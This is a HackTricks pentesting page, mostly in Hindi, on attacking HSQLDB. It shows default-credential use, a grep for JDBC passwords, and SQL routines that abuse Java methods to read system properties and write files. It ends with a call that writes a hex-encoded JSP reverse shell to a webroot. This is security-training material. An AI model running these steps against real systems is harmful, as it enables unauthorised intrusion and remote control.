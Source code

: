 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Basic Information

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** एक प्रमुख SQL रिलेशनल डेटाबेस सिस्टम है जो Java में लिखा गया है। यह एक छोटा, तेज मल्टीथ्रेडेड और ट्रांजैक्शनल डेटाबेस इंजन प्रदान करता है जिसमें इन-मेमोरी और डिस्क-आधारित टेबल होते हैं और यह एम्बेडेड और सर्वर मोड का समर्थन करता है।

**डिफ़ॉल्ट पोर्ट:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Information

### Default Settings

ध्यान दें कि डिफ़ॉल्ट रूप से यह सेवा संभवतः मेमोरी में चल रही है या लोकलहोस्ट से बंधी हुई है। यदि आपने इसे पाया है, तो आपने संभवतः किसी अन्य सेवा का शोषण किया है और विशेषाधिकार बढ़ाने की कोशिश कर रहे हैं।

डिफ़ॉल्ट क्रेडेंशियल आमतौर पर `sa` होते हैं जिनका पासवर्ड खाली होता है।

यदि आपने किसी अन्य सेवा का शोषण किया है, तो संभावित क्रेडेंशियल्स के लिए खोजें।
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
ध्यान से डेटाबेस का नाम नोट करें - आपको कनेक्ट करने के लिए इसकी आवश्यकता होगी।

# जानकारी इकट्ठा करना

DB इंस्टेंस से कनेक्ट करें [HSQLDB डाउनलोड करके](https://sourceforge.net/projects/hsqldb/files/) और `hsqldb/lib/hsqldb.jar` को निकालें। GUI ऐप \(eww\) को `java -jar hsqldb.jar` का उपयोग करके चलाएं और खोजे गए/कमजोर क्रेडेंशियल्स का उपयोग करके इंस्टेंस से कनेक्ट करें।

ध्यान दें कि कनेक्शन URL एक दूरस्थ सिस्टम के लिए इस तरह दिखेगा: `jdbc:hsqldb:hsql://ip/DBNAME`।

# तरकीबें

## जावा भाषा रूटीन

हम HSQLDB से जावा भाषा रूटीन का उपयोग करके एक जावा क्लास के स्थिर तरीकों को कॉल कर सकते हैं। ध्यान दें कि कॉल की गई क्लास को एप्लिकेशन के क्लासपाथ में होना चाहिए।

JRTs `functions` या `procedures` हो सकते हैं। यदि जावा विधि एक या अधिक SQL-संगत प्राइमिटिव वेरिएबल लौटाती है, तो उन्हें SQL स्टेटमेंट के माध्यम से कॉल किया जा सकता है। इन्हें `VALUES` स्टेटमेंट का उपयोग करके लागू किया जाता है।

यदि जावा विधि जिसे हम कॉल करना चाहते हैं, void लौटाती है, तो हमें `CALL` स्टेटमेंट के साथ लागू की गई एक प्रक्रिया का उपयोग करना होगा।

## जावा सिस्टम प्रॉपर्टीज़ पढ़ना

फंक्शन बनाएं:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
कार्य निष्पादित करें:
```text
VALUES(getsystemproperty('user.name'))
```
आप [यहाँ सिस्टम प्रॉपर्टीज़ की सूची](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) पा सकते हैं।

## फ़ाइल में सामग्री लिखें

आप `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` जावा गैजेट का उपयोग कर सकते हैं जो JDK में स्थित है \(जो एप्लिकेशन के क्लास पाथ में ऑटो लोड होता है\) कस्टम प्रक्रिया के माध्यम से डिस्क पर हेक्स-कोडेड आइटम लिखने के लिए। **1024 बाइट्स का अधिकतम आकार ध्यान में रखें**।

प्रक्रिया बनाएं:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
प्रक्रिया निष्पादित करें:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
